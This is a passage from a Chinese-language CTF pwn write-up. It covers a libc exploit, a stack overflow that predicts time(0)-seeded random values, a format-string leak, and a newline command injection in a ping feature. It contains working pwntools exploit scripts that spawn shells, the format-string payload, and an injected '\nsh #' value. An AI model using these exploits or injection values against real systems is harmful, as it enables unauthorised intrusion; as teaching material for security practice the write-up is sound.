 ```python
])

p.sendlineafter(b'> ', payload)
log.info("Payload sent!")


p.interactive()
```

一个libc的纯板子，之前的ezlibc还是对于新手有点不友好，所以从这个入门，总体来说，就是当可执行文件本身的指令不足以让你getshell的时候，此时libc就变成了一个百宝箱，里面不仅有system函数，还有很多其他的东西，只要你能泄露出libc的地址并且劫持控制流，就打开了新世界的大门！

# boom(revenge)

time(0)种子在一秒内不变，因此可以以伪随机数方式攻击。远程可能需要微调时间。本题也存在覆盖栈上内容跳过检查的非预期。

```python
from pwn import *
import ctypes
context(os='linux',arch='amd64',log_level='info')
#p=remote('localhost',9000)
p=remote('192.168.211.1', 8106)
#p=process('./pwn')
#gdb.attach(p,'b *0x4013fb')
#pause()
#elf = ELF('./pwn')
lib = ctypes.CDLL('./1.so')
lib.randd.restype = ctypes.c_int
lib.init()
u=lib.randd()
#log.debug(u)
p.sendlineafter(b'(y/n)',b'y')
bkd=0x40127b
payload=b'a'*(0x90-0x14)+p32(u)+b'a'*0x18+p64(bkd)
p.sendlineafter(b'Enter your message: ',payload)
p.interactive()
```

# fmt

栈上放了一个字符串和一个字符串指针，分别%p和%s泄露(可以开个python用p64或者别的转一下)，不用写exp

payload:%10\$p.%7\$s

# inject

本题漏洞与内存损坏无关，但在现实中不算少见。漏洞点是 `ping_host` 中对用户输入 IP 地址的检查有疏漏，没有过滤换行符。用户输入换行符即可分隔命令，从而注入任意 shell 命令。

Exp:

```python
from pwn import *

io = ...

io.sendlineafter(b'choice: ', b'4')
io.sendafter(b'ping: ', b'\nsh #')

io.interactive()
```
